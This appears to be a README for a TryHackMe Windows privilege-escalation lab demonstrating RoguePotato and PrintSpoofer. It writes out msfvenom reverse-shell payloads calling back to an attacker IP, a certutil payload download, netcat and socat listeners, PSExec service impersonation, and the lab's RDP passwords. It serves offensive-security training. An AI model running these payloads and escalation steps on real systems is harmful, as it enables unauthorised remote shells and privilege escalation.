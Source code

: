 
# Potato Family:2k19


Get a service account by exploiting or if you want to do a demo :

**Big Thanks to Tiberius for the awesome WinPriv course. You can checkout his awesome course here. I couldnot have done without his help and it is his setup :*
https://www.udemy.com/course/windows-privilege-escalation/


Binaries are in the folder called files.

You have to login as the admin and then spawn a shell using the following command which can mimic the service account you get when you exploit a service to obtain a shell.

To make the reverse executables:
```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.11.238 LPORT=443 -f exe > reverse.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.11.238 LPORT=53 -f exe > rev.exe

```

To transfer them start a python server where you have these executables and this on the Windows shell.

```cmd
certutil -urlcache -split -f http://YOURIPFORTHEVPN:PORT/reverse.exe
```
To obtain a mimiced service account:

```cmd
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

https://tryhackme.com/room/windows10privesc

rdp creds
user:password321
admin:password123

--------------------------------------------------


RoguePotato.exe 

```zsh
RoguePotato.exe -r 10.11.11.238 -e "C:\PrivEsc\rev.exe" -l 9999
```
First IP is your Kali machine IP over the VPN

We have rev.exe using msfvenom which can connect to port 53 on our kali machine so:

```zsh
nc -lvnp 53
```

```zsh
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.67.56:9999
```
Here the IP is the Windows IP which we are trying to crack into.

![Rogue Potato in action](./files/Rogue.png)
------------------------------------------------------

Printspoofer.exe

```cmd
PrintSpoofer.exe -i -c rev.exe                                                                                                                                   
PrintSpoofer.exe -i -c rev.exe                                                                                                                                              
[+] Found privilege: SeImpersonatePrivilege                                                                                                                                 
[+] Named pipe listening...                                                                                                                                                 
[+] CreateProcessAsUser() OK
```

```zsh
 nc -lvnp 53
```

![PrintSpoofer.exe](./files/printspoofer.png)